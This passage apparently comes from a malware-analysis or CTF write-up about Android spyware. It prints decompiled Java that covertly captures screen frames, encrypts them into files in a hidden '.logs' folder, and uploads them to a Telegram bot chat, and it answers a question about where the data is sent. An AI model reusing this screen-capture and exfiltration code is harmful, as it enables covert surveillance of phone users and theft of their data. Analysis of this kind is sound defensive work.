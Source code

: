 ```
                    Bitmap createBitmap = Bitmap.createBitmap(((planes[0].getRowStride() - (acquireLatestImage.getWidth() * pixelStride)) / pixelStride) + acquireLatestImage.getWidth(), acquireLatestImage.getHeight(), Bitmap.Config.ARGB_8888);
                    f.e(createBitmap, "createBitmap(...)");
                    createBitmap.copyPixelsFromBuffer(buffer);
                    acquireLatestImage.close();
                    ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
                    createBitmap.compress(Bitmap.CompressFormat.PNG, 100, byteArrayOutputStream);
                    byte[] byteArray = byteArrayOutputStream.toByteArray();
                    try {
                        String str2 = a.f393a;
                        f.c(byteArray);
                        byte[] a2 = a.a(byteArray);
                        File file = new File(screenCaptureService.getExternalFilesDir(null), ".logs");
                        if (!file.exists()) {
                            file.mkdirs();
                        }
                        str = "log_" + System.currentTimeMillis() + ".enc";
                        FileOutputStream fileOutputStream = new FileOutputStream(new File(file, str));
                        try {
                            fileOutputStream.write(a2);
                            l.o(fileOutputStream, null);
                        } finally {
                        }
                    } catch (Exception e2) {
                        Log.i("ser0tonin", "error: " + e2.getMessage(), e2);
                        str = "a";
                    }


Snipped....
```

### Q6 : Where the encrypted image sent to?
Answer: Telegram

All of the image will be sent to Telegram and will be processed by Telegram Bot
```
 if (!f.a(oVar3.b, "multipart")) {
                        throw new IllegalArgumentException(("multipart != " + oVar3).toString());
                    }
                    byte[] bytes = "-1002300479215".getBytes(c1.a.f1544a);
                    f.e(bytes, "this as java.lang.String).getBytes(charset)");
                    int length = bytes.length;
                    g1.b.b(bytes.length, 0, length);
                    arrayList.add(d.r("chat_id", null, new v(null, length, bytes, 0)));
                    String name = file2.getName();
                    Pattern pattern = o.f2348d;
                    try {
                        oVar = d.w("application/octet-stream");
                    } catch (IllegalArgumentException unused) {
                        oVar = null;
                    }
                    arrayList.add(d.r("document", name, new u(oVar, file2)));
                    if (!(!arrayList.isEmpty())) {
                        throw new IllegalStateException("Multipart body must have at least one part.".toString());
                    }
                    q qVar = new q(b, oVar3, g1.b.w(arrayList));
                    F.f fVar = new F.f();
```